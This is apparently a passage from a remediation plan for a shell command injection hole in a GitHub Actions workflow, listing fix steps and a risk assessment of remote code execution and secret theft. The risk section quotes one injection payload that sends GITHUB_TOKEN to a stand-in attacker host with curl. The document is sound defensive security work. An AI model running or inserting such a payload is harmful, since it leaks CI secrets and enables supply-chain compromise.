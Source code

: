 ```
- Verified environment variables pre-populated by GitHub Actions
- Confirmed fallback logic working
- Searched codebase for similar patterns (none found)

### Pattern Search
- ✅ No other instances of shell command injection in workflows
- ✅ Codebase clean of similar vulnerabilities

🤖 Generated with [Claude Code](https://claude.com/claude-code)

Co-Authored-By: Claude <noreply@anthropic.com>
```

---

## 12. Timeline & Execution

### Steps
1. ✅ **Planning** - Create this document
2. ⏳ **Security Fix** - Apply command injection patch
3. ⏳ **Documentation Fix** - Update evidence file
4. ⏳ **Validation** - Security pattern search + shell syntax validation
5. ⏳ **Evidence** - Collect security analysis and validation
6. ⏳ **Commit** - Atomic commit with security emphasis
7. ⏳ **Push** - Push to PR branch
8. ⏳ **Summary** - Generate final report

**Estimated Time:** 20-25 minutes
**Priority:** CRITICAL (security vulnerability)

---

## 13. Risk Assessment

### Pre-Fix Risks

1. **Remote Code Execution (RCE):** HIGH
   - Any contributor can create malicious branch name
   - Workflow executes arbitrary commands on GitHub runner
   - Access to secrets (GITHUB_TOKEN, etc.)
   - Potential for supply chain attack

2. **Data Exfiltration:** HIGH
   - Attacker can leak secrets to external server
   - `$(curl attacker.com -d "$GITHUB_TOKEN")`
   - No user interaction required

3. **Repository Compromise:** MEDIUM
   - Attacker can modify code via workflow
   - Push malicious commits
   - Alter CI/CD configuration
